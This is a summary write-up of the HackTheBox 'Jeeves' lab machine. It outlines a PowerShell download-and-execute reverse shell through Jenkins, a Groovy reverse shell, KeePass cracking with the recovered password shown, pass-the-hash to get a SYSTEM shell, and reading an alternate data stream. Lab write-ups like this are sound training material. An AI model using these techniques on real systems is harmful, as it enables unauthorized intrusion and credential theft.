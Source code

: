 ```yaml
---
tags:
  - ads
  - keepass
  - jenkins
group: Windows
---
```

![](https://labs.hackthebox.com/storage/avatars/709059a710d3d6ff1ba32bf0729ecbb8.png)

- Machine : https://app.hackthebox.com/machines/Jeeves
- Reference : https://0xdf.gitlab.io/2022/04/14/htb-jeeves.html
- Solved : 2025.3.5. (Wed) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Identified open ports: HTTP (80), MSRPC (135), SMB (445), Jetty Web Server (50000).
        - Found IIS 10.0 running on port 80 and Jetty 9.4.z-SNAPSHOT on port 50000.
        - SMB signing was disabled, making it potentially vulnerable.
    - **Web Enumeration**:
        - HTTP (80): "Ask Jeeves" page with an image-based error page.
        - HTTP (50000): Jenkins 2.87 was found under `/askjeeves/` via directory enumeration.
        
2. **Shell as `kohsuke`**
    - **Jenkins Exploitation**:
        - Used Jenkins' "New Item" to execute arbitrary Windows batch commands.
        - Used `powershell -c IEX(New-Object Net.WebClient).downloadString(...)` to get a reverse shell.
        - Alternatively, exploited Jenkins' Script Console with a Groovy reverse shell.
        
3. **Privilege Escalation to `Administrator`**
    - **KeePass Database (`CEH.kdbx`)**:
        - Found in `kohsuke`'s `Documents` folder.
        - Extracted and transferred via SMB.
        - Cracked the KeePass master password (`moonshine1`) using `hashcat`.
        - Retrieved credentials, including an NTLM hash for `Administrator`.
    - **Pass-the-Hash Attack**:
        - Used `crackmapexec` to verify the NTLM hash worked.
        - Used `impacket-psexec` to gain a SYSTEM shell.
        
4. **Root Flag Extraction**
    - **Alternative Data Stream (ADS)**:
        - `root.txt` was hidden in an ADS stream under `hm.txt`.
        - Used `dir /R` to list hidden streams.
        - Extracted the flag using `more < hm.txt:root.txt:$DATA`.

### Key Techniques:

- **Enumeration**:
    - Discovered Jenkins through directory brute-forcing.
    - Identified KeePass database for credential extraction.
- **Exploitation**:
    - Used Jenkins' command execution features to get a reverse shell.
    - Cracked KeePass credentials to retrieve NTLM hashes.
- **Privilege Escalation**:
    - Used `Pass-the-Hash` to escalate to Administrator.
    - Retrieved the flag from an ADS stream hidden in a text file.

---